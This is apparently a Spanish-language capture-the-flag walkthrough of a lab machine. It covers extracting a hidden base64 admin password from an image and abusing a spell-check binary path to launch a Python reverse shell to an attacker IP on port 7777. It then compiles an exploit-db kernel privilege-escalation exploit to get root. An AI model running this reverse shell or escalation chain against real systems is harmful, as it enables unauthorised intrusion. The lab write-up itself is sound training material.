- Entramos al usuario y vemos que en los documentos privados tiene la siguiente informacion:

![[Pasted image 20251030195633.png]]


- La información nos lleva a una ruta la cual es http://severnaya-station.com//dir007key/for-007.jpg en la cual se ve una imagen asi que la descargamos y le ex traemos los metadatos

```bash
wget http://severnaya-station.com//dir007key/for-007.jpg
steghide --extract -sf for-007.jpg      # No funciona 
strings for-007.jpg         # Encontramos la informacion oculta en un hash "eFdpbnRlcjE5OTV4IQ=="

```

![[Pasted image 20251030201456.png]]

- Desencriptamos con base64 y nos da una contraseña : *xWinter1995x!* del usuario *admin*


Con el usuario admin buscamos la ruta del binario aspell que es un plugin de correcion ortografica y cambiamos la ruta a una reverse shell con python:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.23.197.56",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

y cambiamos el SpellEngine a PsSpellShell, vamos creamos un blog y le damos el boton de correcion ortografica el cual nos deveria enviar una reverse shell a nuestra consola en escucha 


```bash
uname -r   # Vemos la version del kernel
https://www.exploit-db.com/exploits/37292  # Descargamos el exploit de escalada de privilegios desde la pagina y pegamos el codigo en una archivo.c

nano exploit.c
sed -i "s/gcc/cc/g" exploit.c   # Hacemos unas sustituciones y copmpartimos el codigo con la maquina victima 

cc exploit.c -o exploited    # Ejecutamos el codigo para que nos de un ejecutable exploited
./exploited   # Ejecutamos el codigo y tenemos root 

```

